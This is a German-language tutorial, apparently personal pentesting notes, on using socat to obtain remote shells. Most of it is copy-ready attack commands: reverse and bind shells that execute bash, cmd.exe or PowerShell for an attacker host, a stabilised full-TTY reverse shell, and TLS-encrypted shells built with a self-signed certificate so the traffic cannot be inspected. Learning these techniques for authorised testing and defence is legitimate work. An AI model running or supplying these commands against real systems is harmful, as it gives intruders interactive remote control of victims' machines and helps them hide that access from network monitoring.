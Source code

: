 Socat ähnelt netcat in mancher Hinsicht, unterscheidet sich aber in vielen anderen Punkten grundlegend. Am einfachsten kann man sich socat als eine Verbindung zwischen zwei Punkten vorstellen. Alles, was socat tut, ist, eine Verbindung zwischen zwei Punkten herzustellen - ähnlich wie die Portalgun!


### Reverse Shells

Da die Syntax für Netcat durch Verfeinerungen immer Komplexer werden kann hier erstmal die Basic Syntax

```
socat TCP-L <PORT>
```

Diese Shell verbindet wie oben gesagt zwei Punkte direkt miteinander. Allerdings ist das Resultat etwas instabil und vergleichbar mit `nc -lvnp <Port>`

Unter Windows würden wir diesen Befehl verwenden, um eine Rückverbindung herzustellen:

```
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
```

Die Option „pipes“ wird verwendet, um Powershell (oder cmd.exe) zu zwingen, die Standardein- und -ausgabe im Unix-Stil zu verwenden 
Dies ist der entsprechende Befehl für ein Linux-Ziel:

```
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC: „bash -li“
```

### Bind Shells

Auf einem Linux-Zielsystem würden wir den folgenden Befehl verwenden:
```
socat TCP-L:<PORT> EXEC: „bash -li“
```

Auf einem Windows-Ziel würden wir diesen Befehl für unseren Listener verwenden:
```
socat TCP-L:<PORT> EXEC:powershell.exe,pipes
```

Wir verwenden das Argument „Pipes“, um eine Schnittstelle zwischen den Unix- und Windows-Methoden zur Handhabung von Ein- und Ausgaben in einer CLI-Umgebung zu schaffen
Unabhängig vom Ziel verwenden wir diesen Befehl auf unserem Angriffsrechner, um eine Verbindung mit dem wartenden Listener herzustellen.

```
socat TCP:<TARGET-IP>:<TARGET-PORT> -
```

### Stabile TTY Linux Reverse Shell

Die TTY Reverse shell funktioniert nur wie oben Geschrieben bei Linux Zielen. Hier die neue Listener Syntax

```
socat TCP-L <Port> FILE:`tty`,raw,echo=0
```

Erklärung des Befehls: 
Wie üblich, verbinden wir zwei Punkte miteinander. In diesem Fall sind diese Punkte ein Listening Port und eine Datei. Genauer gesagt, geben wir den aktuellen TTY als Datei an und setzen das Echo auf Null. Dies entspricht in etwa dem Trick mit Strg + Z, `stty raw -echo; fg` in einer netcat-Shell - mit dem zusätzlichen Vorteil, dass es sofort stabil ist und sich in ein vollständiges TTY einhakt.

Der erste Listener kann mit jeder beliebigen Payload verbunden werden; dieser spezielle Listener muss jedoch mit einem ganz bestimmten socat-Befehl aktiviert werden. Das bedeutet, dass das Ziel socat installiert haben muss. Auf den meisten Rechnern ist socat nicht standardmäßig installiert, es ist jedoch möglich, eine vorkompilierte socat-Binärdatei hochzuladen, die dann wie üblich ausgeführt werden kann.

Der spezielle Befehl dafür lautet wie folgt:
```
socat TCP:<Angreifer-ip>:<Angreifer-port> EXEC: „bash -li“,pty,stderr,sigint,setsid,sane
```
Argumente des Befehls erklärt
  
Der erste Teil ist einfach - wir verbinden uns mit dem Listener, der auf unserem eigenen Rechner läuft. Der zweite Teil des Befehls erzeugt eine interaktive Bash-Sitzung mit EXEC: "bash -li". Wir übergeben auch die Argumente: pty, stderr, sigint, setsid und sane:
- pty, weist ein Pseudoterminal auf dem Ziel zu - Teil des Stabilisierungsprozesses
- stderr, stellt sicher, dass alle Fehlermeldungen in der Shell angezeigt werden (oft ein Problem bei nicht-interaktiven Shells)
- sigint, leitet alle Ctrl + C-Befehle in den Unterprozess weiter, was uns erlaubt, Befehle innerhalb der Shell zu beenden
- setsid, erstellt den Prozess in einer neuen Sitzung
- sane, stabilisiert das Terminal und versucht, es zu "normalisieren".
Beispiel Bildlich
https://imgur.com/H12rVDW


### Encrypted Shells

Einer der Großen Vorteile an SoCat ist das man Encrypted Bind und Reverse Shells erstellen kann. Das ist deswegen sehr Praktisch da dann niemand in den Datenverkehr zwischen den Shells reinschnuppern kann.
Um Encrypted Shells zu nutzen muss erstmal ein openssl Zertifikat angelegt werden das geht via 

```
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```

Der Befehl legt ein self Signed Certifikat mit 2048bit RSA schlüssel an dessen gültigkeit unter einem Jahr ist. Wenn man diesen Befehl ausführt, wird man aufgefordert, Informationen über das Zertifikat einzugeben. Diese können leer gelassen oder nach dem Zufallsprinzip ausgefüllt werden.

Im Anschluss müssen die eben erstellten Dateien dann in eine zusammen gemerged werden via:

```
cat shell.key shell.crt > shell.pem
```

Nachdem dass alles passiert ist kann man den Listener aufsetzen via

```
 socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -
```

Dies richtet einen OPENSSL-Listener ein, der unser generiertes Zertifikat verwendet. verify=0 weist die Verbindung an, nicht zu versuchen, zu überprüfen, ob unser Zertifikat von einer anerkannten Stelle ordnungsgemäß signiert wurde. Zu beachten ist, dass das Zertifikat auf dem Gerät verwendet werden muss, das die Abfrage durchführt.

Für Connect back ist dann der Befehl zuständig 

```
socat OPENSSL:<LOKALE-IP>:<LOKALER-PORT>,verify=0 EXEC:/bin/bash
```

Die gleiche Technik würde für eine Bind-Shell gelten:
Ziel:
```
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes
```
Angreifer:
```
socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -
```
Auch hier ist zu beachten, dass selbst für ein Windows-Ziel das Zertifikat mit dem Listener verwendet werden muss, so dass das Kopieren der PEM-Datei für eine Bind-Shell erforderlich ist.

BildBeispiel
https://imgur.com/X6NDHQN